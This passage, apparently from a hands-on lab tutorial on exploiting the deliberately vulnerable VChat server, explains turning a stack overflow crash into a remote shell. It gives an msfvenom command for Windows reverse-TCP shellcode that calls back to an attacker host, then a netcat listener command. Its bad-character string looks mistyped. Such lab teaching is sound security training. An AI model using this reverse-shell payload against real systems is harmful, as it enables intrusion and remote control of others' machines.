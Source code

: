 
Now that we have all the necessary parts for the creation of a exploit we will discuss what we have done so far (the **exploit.py** files), and how we can now expand our efforts to gain a shell in the target machine. 

### Exploitations
Up until this point in time,  we have been performing [Denial of Service](https://attack.mitre.org/techniques/T0814/) (DoS) attacks. Since we simply overflowed the stack with what is effectively garbage address values (A series of `A`s, `B`s and `C`s) all we have done with our exploits is crash the VChat server. Now, we have all the information necessary to control the flow of VChat's execution, allowing us to inject [Shellcode](https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/) and perform a more meaningful attack.

1. We first need to generate some shell code to inject into the process. We will use the [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) tool to both generate shellcode and encode it to ensure it is transmitted properly. We **must** encode the resulting shellcode so it does not contain any null bytes `0x0`, carriage returns `\r` or newlines `\n`, as their presence would prevent the shellcode from properly executing by breaking the transmission, reception or execution of the shellcode. **Note**: you may need to type the command since copy and paste may not work.

	```sh
	msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.7 LPORT=8080 EXITFUNC=thread -f python -v SHELL -b '\x00x\0a\x0d'
	```

 
	* `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for Windows.
    	* `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP `10.0.2.7`.
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    	* `EXITFUNC=thread`: Create a thread to run the payload.
  	* `-f`: The output format. 
    	* `python`: Format for use in python scripts.
  	* `-v`: Specify a custom variable name.
    	* `SHELL`: Shell Variable name.
  	* `-b`: Specifies bad chars and byte values. This is given in the byte values. 
      	* `\x00x\0a\x0d`: Null char, carriage return, and newline. 

2. Insert this into your exploit python code as shown in [exploit4.py](./SourceCode/exploit4.py) or [exploit5.py](./SourceCode/exploit5.py). The only difference between the two is that the extra padding at the end of [exploit4.py](./SourceCode/exploit4.py)'s payload `b'C' * (5000 - 2003 - 4 - 32 - len(SHELL))` is not needed.
3. Launch a [netcat](https://linux.die.net/man/1/nc) listener on our *Kali Linux* machine listening on port 8080, so we can receive the outbound connection from the target. 
	```sh
	nc -l -v -p 8080
	```
	* `nc`: The netcat command.
  	* `-l`: Set netcat to listen for connections. 
  	* `v`: Verbose output. 
  	* `p`: Set to listen on a port, in this case, port 8080.
